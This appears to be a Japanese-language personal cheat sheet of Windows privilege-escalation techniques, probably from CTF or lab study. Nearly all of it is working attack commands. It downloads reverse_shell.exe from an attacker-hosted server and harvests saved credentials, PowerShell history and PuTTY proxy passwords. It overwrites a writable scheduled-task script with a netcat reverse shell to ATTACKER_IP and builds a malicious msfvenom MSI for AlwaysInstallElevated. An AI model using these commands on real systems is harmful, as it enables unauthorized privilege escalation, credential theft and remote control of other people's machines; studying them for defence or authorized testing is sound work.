 # Windows権限昇格手法  

### 簡易ファイルサーバーからファイルをダウンロードする  
``` powershell -c "Invoke-WebRequest -Uri 'http://<自分のIP>:8000/reverse_shell.exe' -OutFile 'C:\Windows\Temp\reverse_shell.exe'" ```  
ちなみにpython3側では``` python3 -m http.server ```で簡易うｐ鯖を建てられる(デフォルトでポートは8000)  


### よく使うWindowsコマンド一覧  
現在のユーザーネームを表示
``` echo %usernamem% ```

ファイル名を変更する  
``` ren 元のファイル名　先のファイル名 ```

### PowerShellのログを確認する  

``` type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt ```  
<br>※また、PowerShellで実行する場合には%userprofile%を$Env:userprofileに変更する必要がある  



  ### Windows内に保存されているクレデンシャル情報を確認する  
  ```cmdkey /list```
実際のパスワードを見ることはできませんが、試す価値のある認証情報があれば、以下のようにrunasコマンドと/savecredオプションで使用することが可能
```runas /savecred /user:admin cmd.exe```


### Puttyに保存されている平文の認証情報を含むプロキシパスワードを確認する
```reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s```


### スケジュールタスクを調べて書き換え可能なバイナリがないかを調べる
``` schtasks /query /tn vulntask /fo list /v```
##### また、出力結果内で重要となってくるのが"Task to Run"と"Run As User"という項目で<br>もし、現在のユーザーが "Task to Run "実行ファイルを変更または上書きすることができれば<br>taskusr1ユーザーによって実行されるものを制御することができ、結果として単純な特権の昇格を実現することができる。
``` 
C:\> icacls c:\tasks\schtask.bat
c:\tasks\schtask.bat NT AUTHORITY\SYSTEM:(I)(F)
                    BUILTIN\Administrators:(I)(F)
                    BUILTIN\Users:(I)(F)
```

##### (I)と(F)は権限のことで、(F)はフルアクセスを指している。
つまり今回の例だとこのバッチファイルをリバールシェルに書き換えればrootになれる  
以下はバッチをリバースシェルに書き換える例  
``` C:\> echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat ```



### msiファイルを利用して権限昇格する
msiでは任意のユーザーアカウント（非特権ユーザーも含む）から、より高い特権で実行されるように設定することができる。  
これにより、管理者権限で実行される悪意のあるMSIファイルを生成することができるが、それには以下の2うのレジストリ値を設定する必要がある。
```
C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```
以下はmsfvenomでmsi形式のリバースシェルを生成する例
```msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_MACHINE_IP LPORT=LOCAL_PORT -f msi -o malicious.msi```
<br>生成したファイルをターゲットPCに送り込んで実行する例
```C:\> msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi```
